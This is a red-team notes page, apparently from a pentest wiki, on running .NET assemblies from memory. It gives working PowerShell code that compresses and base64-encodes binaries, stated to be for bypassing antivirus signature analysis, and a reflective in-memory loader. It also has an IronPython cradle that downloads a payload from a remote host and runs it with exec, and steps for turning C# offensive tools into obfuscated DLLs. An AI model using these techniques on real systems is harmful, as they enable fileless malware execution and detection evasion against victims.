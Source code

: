 # .NET Reflective Assembly

- [https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load](https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load)
- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)
- [https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/](https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
notepad.exe .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

{% code title="Invoke-S0m3B1n4ry.ps1" %}
```powershell
function Invoke-S0m3B1n4ry
{
	#[CmdletBinding()]
	#Param([String]$Command = " ")

	$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("..."))
	$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
	$c = New-Object System.IO.MemoryStream;
	$b.CopyTo($c)
	[byte[]]$d = $c.ToArray()
	$e = [System.Reflection.Assembly]::Load($d)
	$f = [System.Console]::Out
	$g = New-Object System.IO.StringWriter
	[System.Console]::SetOut($g)

	$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
	$i = $e.GetType("S0m3B1n4ry.Program", $h)
	$j = $i.GetMethod("Main", $h)
	$j.Invoke($null, (, [string[]]$args))
	#$i = [S0m3B1n4ry.Program]::Main($Command.Split())

	[System.Console]::SetOut($f)
	$k = $g.ToString()
	$k
}
```
{% endcode %}




## IronPython Loader

- [https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader](https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader)
- [https://github.com/IronLanguages/ironpython3/releases](https://github.com/IronLanguages/ironpython3/releases)
- [https://pythonnet.github.io/](https://pythonnet.github.io/)
- [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml)

Cradle:

```python
>>> import urllib.request
>>> request = urllib.request.Request('http://10.10.13.37/payload.py')
>>> result = urllib.request.urlopen(request)
>>> payload = result.read()
>>> exec(payload)
```

Payload:

{% code title="loader.py" %}
```python
import clr
import zlib
import base64

clr.AddReference('System')
from System import *
from System.Reflection import *

b64 = base64.b64encode(zlib.decompress(base64.b64decode(b'<LOADER_BYTES_B64>'))).decode()
raw = Convert.FromBase64String(b64)

assembly = Assembly.Load(raw)
type = assembly.GetType('Loader.Program')
type.GetMethod('Main').Invoke(Activator.CreateInstance(type), None)
```
{% endcode %}




## C\# to Unmanaged DLL

* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
